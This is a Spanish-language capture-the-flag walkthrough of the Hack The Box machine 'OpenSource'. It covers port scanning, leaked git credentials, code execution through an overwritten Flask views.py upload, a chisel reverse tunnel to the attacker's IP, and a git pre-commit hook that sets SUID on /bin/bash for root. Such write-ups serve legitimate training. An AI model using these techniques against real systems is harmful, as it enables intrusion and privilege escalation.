

# OpenSource

Informacion de la maquina:

- Nombre: OpenSource
- Dificultad: Easy
- SO: Linux
- IP target: 10.10.11.164
- IP atacante: 10.10.14.6
## Reco

Primero checkeamos la conectividad con la maquina


```bash
❯ ping -c 1 10.10.11.164
PING 10.10.11.164 (10.10.11.164) 56(84) bytes of data.
64 bytes from 10.10.11.164: icmp_seq=1 ttl=63 time=156 ms

--- 10.10.11.164 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.051/156.051/156.051/0.000 ms
```

A la salida del comando, obtenemos tambien el dato llamado  `ttl` , hace referencia a la **cantidad de tiempo o "saltos" que se ha establecido que un paquete debe existir dentro de una red antes de ser descartado por un enrutador**. Con este mismo dato podemos saber tambien que SO tiene la maquina escaneada

* GNU/Linux  →  TTL=64
- Windows  → TTL=128

Como podemos ver la maquina es una `GNU/Linux`.

Utilizamos la herramienta `nmap`  para reconocer los puertos abiertos

`sudo nmap -sS --min-rate 5000 -vvv -Pn -p- -n 10.10.11.164 -oG openports`

- `-sS`  → Realiza un TCP SYN Scan (requiere SUDO)
- `--min-rate 5000`  → Indica que la cantidad mínima de paquetes a emitir por segundo es 5000
- `-vvv`  →  Indica el nivel de verbose
- `-Pn`  →  Omitir el descubrimiento de hosts Indica que no aplique resolución DNS
- `-p-` →  Indica que escanee el total de los puertos(65535)
- `-n` →  No aplicar resolucion DNS
- `-oG openports`  →  Exporta el output  en un archivo en formato grepeable a un archivo llamado openports

Command output:

```bash
❯ nmap -sS --min-rate 5000 -vvv -Pn -p- -n 10.10.11.164 -oG openports
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-26 23:44 -03
Initiating SYN Stealth Scan at 23:44
Scanning 10.10.11.164 [65535 ports]
Discovered open port 22/tcp on 10.10.11.164
Discovered open port 80/tcp on 10.10.11.164
Completed SYN Stealth Scan at 23:45, 15.16s elapsed (65535 total ports)
Nmap scan report for 10.10.11.164
Host is up, received user-set (0.16s latency).
Scanned at 2022-09-26 23:44:52 -03 for 15s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE    SERVICE REASON
22/tcp   open     ssh     syn-ack ttl 63
80/tcp   open     http    syn-ack ttl 62
3000/tcp filtered ppp     no-response

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 15.29 seconds
           Raw packets sent: 74378 (3.273MB) | Rcvd: 74268 (2.971MB)
❯ ping -c 1 10.10.11.164
PING 10.10.11.164 (10.10.11.164) 56(84) bytes of data.
64 bytes from 10.10.11.164: icmp_seq=1 ttl=63 time=156 ms

--- 10.10.11.164 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 156.051/156.051/156.051/0.000 ms
```

```bash
❯ sudo nmap -sCV -p22,80 -Pn 10.10.11.164 -oN target
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-26 23:56 -03
Nmap scan report for 10.10.11.164
Host is up (0.16s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1e:59:05:7c:a9:58:c9:23:90:0f:75:23:82:3d:05:5f (RSA)
|   256 48:a8:53:e7:e0:08:aa:1d:96:86:52:bb:88:56:a0:b7 (ECDSA)
|_  256 02:1f:97:9e:3c:8e:7a:1c:7c:af:9d:5a:25:4b:b8:c8 (ED25519)
80/tcp open  http    Werkzeug/2.1.2 Python/3.10.3
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Tue, 27 Sep 2022 02:56:37 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5316
|     Connection: close
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>upcloud - Upload files for Free!</title>
|     <script src="/static/vendor/jquery/jquery-3.4.1.min.js"></script>
|     <script src="/static/vendor/popper/popper.min.js"></script>
|     <script src="/static/vendor/bootstrap/js/bootstrap.min.js"></script>
|     <script src="/static/js/ie10-viewport-bug-workaround.js"></script>
|     <link rel="stylesheet" href="/static/vendor/bootstrap/css/bootstrap.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-grid.css"/>
|     <link rel="stylesheet" href=" /static/vendor/bootstrap/css/bootstrap-reboot.css"/>
|     <link rel=
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.10.3
|     Date: Tue, 27 Sep 2022 02:56:37 GMT
|     Content-Type: text/html; charset=utf-8
|     Allow: GET, HEAD, OPTIONS
|     Content-Length: 0
|     Connection: close
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
|_http-title: upcloud - Upload files for Free!
|_http-server-header: Werkzeug/2.1.2 Python/3.10.3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=9/26%Time=63326668%P=x86_64-pc-linux-gnu%r(GetR
SF:equest,1573,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.1\.2\x20P
SF:ython/3\.10\.3\r\nDate:\x20Tue,\x2027\x20Sep\x202022\x2002:56:37\x20GMT
...
cut bad request html response
...
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Podemos observar el puerto `22` con el ssh y el 22 con un servicio `http` con `python3.10.3`

Tenemos los servicios y versiones en los puertos:

- 22  →  SSH  `OpenSSH 7.6p1`
- 80  →  HTTP  `python3.10.3`

Podemos ver en la salida que la version del `ssh`  corresponde a  `Ubuntu`.

Agregamos el host redpanda.htb con la ip correspondiente a /etc/hosts

```bash
echo "10.10.11.164 opensource.htb" >> /etc/hosts
```

Entramos en la pagina web levanta en el puerto 80  y vemos


Nos da para descargar los archivos y para probar una instancia de de testing.

Descargamos un zip con el codigo fuente y lo inspeccionamos.

Encontramos una app `flask`,  en el codigo tiene un LFI en el file views.py, y una mitigacion para el mismo.


revisando el file, encontramos una carpeta `.git`. Revisando los commits encontramos unas credenciales

- dev01:Soulless_Developer#2022

Las probamos en sobre ssh y no sirve.

## Explotation

Probamos subir un archivo y nos devuelve una url con el archivo. Investigando vemos que una app `flask` en modo debugger, recarga la app al percibir cambios en el codigo. Siendo asi podemos subir nuestro propio endpoint que ejecute codigo en el lado del servidor. 

Subimos archivos con un ep nuevo buscando una reverse shell pero nos lo descarga el archivo si lo buscamos y no encuentra el ep colocaldo.

Probamos subirlo con el filename  `/app/app/views.py` copiando toda la app y sumando nuestra fraccion de codigo.  



Nos ponemos en escucha en un puerto elegido, en este caso el 9191.

Y conseguimos acceso a un docker.

miramos que otros equipos equipos tenemos alcance y verificamos nuestra ip que nuestra ip del contenedor es `172.17.0.1`. 


Seguramente el contenedor esta dentro de la maquina victima que escaneamos con nmap, probamos a ver si tenemos conectividad con el puerto 3000. no tenemos curl, probamos con wget a ver que hay y nos trae un `index.html`.
comprobamos que hay una web levantada en ese puerto, asique procedemos a hacer un reverse port forwarding para traernos a nuestro equipo local el puerto en cuestion.

Para esto utilizaremos la `chisel` en modo servidor con la opcion `--reverse` para traernos el puerto al que tenemos acceso desde el contenedor

```bash
./chisel server --reverse -p 8000
```

En el contenedor levantamos el `chisel` en modo cliente, poniendo la ip de nuestra maquina y el puerto elegido, seguido del `R:` para indicar que es reverso, seguido del puerto que se abrira en el chisel que esta levantado en el servidor, la ip y puerto que queremos traernos. 
```bash
./chisel client 10.10.14.6:8000 R:3000:172.17.0.1:3000
```

Nos metemos con el browser en `http://localhost:3000` y encontramos una pagina para almacenar repositorios tipo git.
Ponemos las credenciales q encontramos previamente y podemos ver un repo llamado `home-backup`. Asi terminamos encontrando una ssh key


Las utilizamos para entrar por ssh y asi estamos dentro de la maquina


Podemos encontrar la user flag en el directorio home del usuario dev01


## LPE

Enumeramos la maquina no encontrando demaciado, hasta que vemos con la utilidad `pspy64` los procesos que se van ejecutando en el programa en busca de alguna tarea a intervalos regulares de tiempo.


Diseñamos un vector de ataque en donde el proceso que esta commiteando, termine ejecutando un hook llamado pre-commit el cual otorgara a la bash permisos SUID. 

Para esto creamos el file pre-commit que contenga y lo guardamos en `~/.git/hooks/pre-commit`
```bash
#!/bin/bash
chmod 4755 /bin/bash
```

Le asignamos permisos de ejecucion y esperamos a que el cron se ejecute


Ahora podemos ver la flag en /root


## Autopwn:

Para poder ejecutar el autopwn hay que tener el host en el know_hosts del ssh y el chisel en la carpeta donde se ejecute, puede ser un link simbolico. Y una instancia de chisel con el siguiente comando `./chisel server --reverse -p 8000`
